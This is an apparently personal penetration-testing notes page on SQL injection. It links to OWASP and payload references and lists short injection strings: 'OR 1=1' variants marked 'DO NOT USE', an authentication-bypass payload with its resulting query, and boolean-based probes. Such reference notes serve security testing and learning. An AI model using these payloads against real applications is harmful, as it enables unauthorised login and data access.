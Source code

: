 ```yaml
---
id: Exploitation
aliases:
  - SQLi
tags:
  - Networking/Services/SQL/Exploitation
links: "[[SQL]]"
---
```


# Exploitation

<!-- SQL injection {{{-->
## SQL injection

- [OWASP - SQL Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection)
- [TCM Security - Avoid OR 1=1](https://tcm-sec.com/avoid-or-1-equals-1-in-sql-injections/)
- [GitHub - PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-remote-code-execution)

> [!danger]
>
> **DO NOT USE**
>
>```sql
># OR <true>
>OR 1=1
>' OR '1'='1
>```

### Authentication Bypass

```sql
admin'; -- -
```
```sql
SELECT * FROM users WHERE username = 'admin'; -- -' AND password = 'password'
```

### Boolean

```sql
admin' AND '1'='1 / ' AND '1'='2
```
```sql
SELECT * FROM articles WHERE author = 'admin' AND '1'='1'
```
<!-- }}} -->
